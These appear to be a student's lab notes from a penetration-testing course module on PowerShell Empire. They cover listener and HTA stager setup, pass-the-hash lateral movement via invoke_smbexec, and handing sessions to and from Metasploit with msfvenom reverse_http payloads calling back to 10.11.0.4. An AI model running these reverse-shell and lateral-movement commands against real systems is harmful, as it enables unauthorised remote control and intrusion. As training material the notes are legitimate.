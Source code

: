 # Module 23 (Powershell Empire)

## Powershell Empire&#x20;

### Listener

```
// Empire commands used
?
uselistener http
info
```

<figure><img src="../../.gitbook/assets/image (376).png" alt=""><figcaption></figcaption></figure>

Starting the listener:

```bash
execute
```

### Stager

Stager will download and execute the final payload which will call back to the listener we set up previously - `http`- below shows how to set it up:

```bash
//specify what stager to use
usestager windows/hta

//associate stager with the http listener
set Listener meterpreter

//write stager to the file
set OutFile stage.hta

//create the stager
execute
```

<figure><img src="../../.gitbook/assets/image (378).png" alt=""><figcaption></figcaption></figure>

### Lateral Movement

```bash
usemodule lateral_movement/technique
usemodule lateral_movement/invoke_smbexec
```

```
set ComputerName client251
set Listener http
set Username jeff_admin
set Hash e2b475c11da2a0748290d87aa966c327
set Domain corp.com
execute
```

### Switching Between Empire and Metasploit

Metasploit to Empire

```
msfvenom -p windows/meterpreter/reverse_http LHOST=10.11.0.4 LPORT=7777 -
f exe -o met.exe
use multi/handler
set payload windows/meterpreter/reverse_http
set LPORT 7777
set LHOST 10.11.0.4
run
```

Empire&#x20;

```
upload /home/h3ckt0r/met.exe
shell dir
shell C:\Users\offsec.corp\Downloads>met.exe
```

Empire to Metasploit

```
 usestager windows/launcher_bat
 set Listener http
 execute
```

Metasploit

```
upload /tmp/launcher.bat
shell
dir
lanucher.bat
```

